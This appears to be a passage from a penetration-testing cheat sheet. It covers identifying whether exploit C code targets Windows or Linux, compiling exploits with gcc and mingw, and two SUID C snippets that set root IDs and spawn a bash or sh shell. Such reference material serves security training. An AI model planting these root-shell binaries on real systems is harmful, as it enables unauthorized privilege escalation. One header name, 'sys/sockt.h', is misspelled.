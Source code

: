 ## Compiling Exploits

### Identifying if C code is for Windows or Linux

| Header Files | OS |
|--------------|----|
| `process.h, string.h, winbase.h, windows.h, winsock2.h` | Windows |
| `arpa/inet.h, fcntl.h, netdb.h, netinet/in.h, sys/sockt.h, sys/types.h, unistd.h` | Linux |

### Build Exploit GCC

| Command | Description |
|---------|-------------|
| `gcc -o exploit exploit.c` | Basic GCC compile |
| `gcc -Wall -Wextra exploit.c -o exploit` | Compile with all warnings and extras |

### GCC Compile 32Bit Exploit on 64Bit Kali

| Command | Description |
|---------|-------------|
| `gcc -m32 exploit.c -o exploit` | Cross compile 32-bit binary on 64-bit Linux |

### Compile Windows .exe on Linux

| Command | Description |
|---------|-------------|
| `i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe` | Compile Windows .exe on Linux |
| `x86_64-w64-mingw32-gcc exploit.c -o exploit.exe` | Compile 64-bit Windows .exe on Linux |

## SUID Binary

### SUID C Shell for /bin/bash
```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}
```
### SUID C Shell for /bin/sh
```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}
```
### Building the SUID Shell binary
